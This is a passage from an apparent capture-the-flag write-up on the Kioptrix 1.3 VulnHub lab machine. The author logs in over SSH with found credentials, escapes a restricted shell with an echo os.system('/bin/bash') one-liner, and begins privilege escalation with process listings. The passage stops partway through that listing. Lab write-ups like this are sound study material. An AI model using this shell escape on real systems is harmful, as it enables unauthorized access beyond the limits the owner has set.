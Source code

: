 Pretty straightforward, let's try to use these creds to connect via SSH:

```bash
ein@~/VulnHub/Kioptrix1.3:$ ssh john@10.0.0.151
john@10.0.0.151's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ 
```

Interesting, we're dropped in but we're in a restricted shell.

Now that we have a working (but restricted) shell on the box, let's try to exploit the available commands to break out of our _protections_.

First thing I notice is `echo`, maybe we can use this to execute a python command through `os.system()`?

```bash
john:~$ echo os.system('/bin/bash')
bash-3.2$ id && echo $0
uid=1001(john) gid=1001(john) groups=1001(john)
/bin/bash
bash-3.2$ 
```

Boom. Escaped the confines and have a full Bash session, now for privesc to root.

# Privilege Escalation

I'll begin by taking a look at the running processes on the host:

```bash
bash-3.2$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   2844  1692 ?        Ss   19:48   0:00 /sbin/init
root         2  0.0  0.0      0     0 ?        S<   19:48   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S<   19:48   0:00 [migration/0]
root         4  0.0  0.0      0     0 ?        S<   19:48   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   19:48   0:00 [watchdog/0]
root         6  0.0  0.0      0     0 ?        S<   19:48   0:00 [events/0]
root         7  0.0  0.0      0     0 ?        S<   19:48   0:00 [khelper]
root        41  0.0  0.0      0     0 ?        S<   19:48   0:00 [kblockd/0]
root        44  0.0  0.0      0     0 ?        S<   19:48   0:00 [kacpid]
root        45  0.0  0.0      0     0 ?        S<   19:48   0:00 [kacpi_notify]
root        88  0.0  0.0      0     0 ?        S<   19:48   0:00 [kseriod]
root       127  0.0  0.0      0     0 ?        S    19:48   0:00 [pdflush]
root       128  0.0  0.0      0     0 ?        S    19:48   0:00 [pdflush]                                                                                                                                                                 
root       129  0.0  0.0      0     0 ?        S<   19:48   0:00 [kswapd0]                                                                                                                                                                 
root       171  0.0  0.0      0     0 ?        S<   19:48   0:00 [aio/0]                                                                                                                                                                   
root      1277  0.0  0.0      0     0 ?        S<   19:48   0:00 [ata/0]                                                                                                                                                                   
root      1284  0.0  0.0      0     0 ?        S<   19:48   0:00 [ata_aux]                                                                                                                                                                 
```